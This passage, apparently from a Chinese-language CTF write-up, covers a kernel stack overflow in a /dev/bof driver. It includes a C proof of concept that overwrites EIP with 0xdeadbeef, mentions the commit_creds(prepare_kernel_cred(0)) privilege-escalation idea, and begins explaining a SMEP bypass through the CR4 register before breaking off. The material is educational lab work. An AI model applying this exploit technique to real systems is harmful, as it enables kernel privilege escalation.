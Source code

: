 和往常一样，用户态仅开启了NX保护。

#### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E9%80%BB%E8%BE%91%E5%88%86%E6%9E%90&amp;%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>题目逻辑分析&amp;漏洞分析

本次题目逻辑很简单，就是一个简单的读入操作，当我们向内核发送数据时有一个很明显的栈溢出会发生。

[![](./img/201454/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-18-060204.png)

程序在向buf写入值时并没有做最大size限制，于是我们可以很容易的触发栈溢出。

### <a class="reference-link" name="%E6%8E%A7%E5%88%B6EIP"></a>控制EIP

我们若发送以下PoC，程序应该会断在`0xdeadbeef`：

```
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdint.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;

int main(void){
    char Send_data[0x30];
    char Padding[0x29] = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    char Eip[4] = "xEFxBExADxDE";
    strcat(Send_data,Padding);
    strcat(Send_data,Eip);
    int fd = open("/dev/bof",2);
    write(fd,Send_data,0x30);
    return 0;
}

//gcc -m32 -static -o Exploit Exploit.c
```

发现符合预期。

[![](./img/201454/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-18-113010.png)

那么因为`SMEP`的存在我们不能再使用和`Buffer overflow basic 1`相同的思路，也就是说，执行完`commit_creds(prepare_kernel_cred(0));`后将不被允许继续执行用户态代码。

### <a class="reference-link" name="Bypass%20SMEP"></a>Bypass SMEP

内核是根据`CR4`寄存器的值来判断`smep`保护是否开启的，当`CR4`寄存器的第`20`位是`1`时，保护开启；是`0`时，保护关闭。以下是`CR4`寄存器的各标志位：
